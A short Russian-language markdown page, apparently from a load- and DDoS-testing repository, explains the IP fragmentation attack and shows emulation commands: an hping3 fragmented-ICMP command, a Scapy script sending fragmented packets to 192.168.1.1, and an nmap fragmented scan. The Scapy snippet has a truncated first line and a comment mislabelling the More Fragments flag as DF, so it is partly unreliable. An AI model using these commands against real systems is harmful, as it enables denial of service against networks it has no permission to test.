 # IP_FRAG Attack

Тип атаки, при которой злоумышленник отправляет фрагментированные IP-пакеты, занимающие значительные ресурсы для их сборки и обработки. Проведение нагрузочного тестирования с использованием IP FRAG ATTACK позволяет выявить уязвимости в обработке фрагментированных пакетов системой, оценить ее степень устойчивости к такого рода атакам и принять меры по усилению защиты.

#### Методы реализации
Для эмуляции IP FRAG Attack можно использовать такие инструменты, как hping3, Scapy, nmap, metasploit:
```
hping3 TARGET_IP --icmp --frag 16
```

```
rom scapy.all import * 
 
# Создание фрагментированного IP-пакета 
ip = IP(dst="192.168.1.1", flags=1, frag=0, id=1000)  # Устанавливаем флаг DF (Don't Fragment) и идентификатор 
icmp = ICMP()  # Создаем ICMP пакет для вложения в IP-пакет 
 
packet = ip/icmp  # Собираем IP пакет с ICMP заголовком 
 
# Фрагментирование пакета 
fragments = fragment(packet, fragsize=100) 
 
# Отправка фрагментированных пакетов 
send(fragments) 
```

```
nmap -sS -p 80 -f 192.168.1.1
```

В Jmeter описан метод с использованием nmap
![IP Frag Attack example img](https://github.com/Fireng/Load-Stress-DDoS-Test/blob/main/assets/images/IP_FRAG_Exmp.png)